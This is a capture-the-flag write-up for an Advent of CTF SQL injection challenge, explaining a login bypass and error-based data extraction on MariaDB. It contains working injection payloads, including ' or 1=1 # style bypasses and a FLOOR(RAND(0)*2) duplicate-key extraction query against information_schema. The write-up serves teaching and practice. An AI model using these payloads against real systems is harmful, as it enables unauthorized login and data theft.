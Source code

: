 #+TITLE: Advent of CTF - Challenge 5
#+SUBTITLE: "Classic"

* Challenge

Today's challenge is a =SQL Injection=. A spin on the classing injection that is posted on just about every tutorial website.

What you will learn today:

- Discover of SQL Injections
- Deducing SQL queries
- Manipulating SQL queries

* Solution 1 - Using the injection
:PROPERTIES:
:ATTACH_DIR: /home/arjen/Projects/credmp.github.io/writeups/advent-of-ctf/challenge-5/index_att
:END:

In this challenge, again, you are faced with a login screen. This time no trickery with cookies or other browser based things however.

#+CAPTION: The familiar login screen
[[file:index_att/login.png]]

The description of the challenge reads as follows.

#+begin_quote
Again a login form stands in your way. What powerful 'hacker' tool will help you proceed?
#+end_quote

The clue in this description is the use of the ='=. This is a hint to the presence of a SQL injection. If the ='= is entered as a username of password (but not both) then a SQL error will occur. 

#+CAPTION: SQL error
[[file:index_att/sql_error.png]]

Taking the information from the screen it is clear that the backend database is a =MariaDB= server, which is a spinoff of the =MySQL= database. And there is only a little bit of extra information, in the form of the username that was entered. In this case it was =test'=.

#+begin_quote
Error description: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test'' at line 1 
#+end_quote

Exploring common SQL injections it is clear that we also need to use comments. You can either use =--= or =#= as a comment sign. The big difference is that with =--= you need to ensure a space is left behind it, with the =#= a space is not mandatory.

To fully understand the impact of the vulnerability it helps to have the original SQL statement. The following listing is the SQL as used in the code. PHP will further check to see if the =count= equals 1 before proceeding. As an attacker this is unknown and has to be deduced from behaviour.

#+CAPTION: The SQL query used in the code
#+begin_src sql 
SELECT count(*)
  FROM users
 WHERE username='$username'
   AND password='$password'
#+end_src

Given the code above the most common injection that you will find will be the following listing, however that will not work as the count will be 2, given that there are multiple accounts in the database.

#+CAPTION: Common SQL injection
#+begin_src sql
' or 1=1 #
#+end_src

The first option to solve this is to know a username and use that. For instance, it is the =Administrator= login page, so a username of =admin= is not far fetched. A payload such as =admin' #= would yield a value of 1 for the count and will give the flag.

#+CAPTION: SQL payload applied
#+begin_src sql 
SELECT count(*)
  FROM users
 WHERE username='admin' -- AND password='something'
#+end_src

But that means you need to guess a username. That is not really fun of course. An alternative way would be to add conditions to the query that result in the same behavior. An example would be to do the following query =' OR username like 'a%' #=. The only guess here is that a username might start with an =a=, which is not unreasonable.


#+CAPTION: The flag
[[file:index_att/flag.png]]

As always, be sure to grab the badge as well.

#+CAPTION: The badge for today
[[file:index_att/badge.png]]

* Solution 2 - Extracting through the error message

Another way would be to use the error message as a vessel to extract information. [[https://maik.dev/posts/2020/12/challenge-5-adventofctf/][Maik]] wrote a great blog post on this challenge from that perspective. I have recreated the instructions here below.

#+CAPTION: Error extracting SQL query
#+BEGIN_SRC sql
' AND (SELECT 1 FROM
         (SELECT COUNT(*),
                 CONCAT(
                    (SELECT database()),
                    0x3a,
                    FLOOR(RAND(0)*2)) x
            FROM information_schema.tables GROUP BY x)
         y) #
#+END_SRC

This is quite the payload. First the query has to return something, in this case it will return =1= from the table =y=. This table does not exist (yet), but for every row in =y= it would return =1=. In the case of the payload this does not actually do anything, as the payload will force an error.

#+CAPTION: Error extracting SQL query
#+BEGIN_SRC sql
' AND (SELECT 1 FROM y) #
#+END_SRC

The =y= table is built using a sub query.

#+CAPTION: Table subquery
#+BEGIN_SRC sql
SELECT COUNT(*),
       CONCAT(
         (SELECT database()),
         0x3a,
         FLOOR(RAND(0)*2)
       ) x
  FROM information_schema.tables
 GROUP BY x
#+END_SRC

The =y= table will be constructed by taking a =count(*)=, which will be the number of times the 2nd column occurs in the result set. The 2nd column is a =CONCAT=, a string concatenation, of yet another sub query, in this case =SELECT database()=, the hex value =0x3a= (ascii character =:=) and a random value =0= or =1=.

The sub query =SELECt database()= is the column of data that is to be extracted. The string concatenation with the random value will keep creating new rows for every row in the table it is queried from, in this case the =information_schema.tables=. It is important that the sub query (=select database()=) returns a single value and that the table it is used against has at least 3 rows so that a duplicate key will be created.

So, in order to see what tables are part of the schema the =information_schema.tables= table can be queries with a =LIMIT= keyword to only return a single row.

#+CAPTION: Payload to extract tables names
#+BEGIN_SRC sql
' AND (SELECT 1 FROM (
SELECT COUNT(*),
       CONCAT(
         (SELECT table_name
            FROM information_schema.tables
           WHERE table_schema='testdb' LIMIT 0,1),
         0x3a,
         FLOOR(RAND(0)*2)
       ) x
  FROM information_schema.tables
 GROUP BY x)
         y) #
#+END_SRC

The result will be:

#+BEGIN_QUOTE
Error description: Duplicate entry 'users:1' for key 'group_key' 
#+END_QUOTE

Using this technique the =users= table can be exfiltrated giving a username and password and the challenge is solved.

Go back to the [[../../../index.org][homepage]].
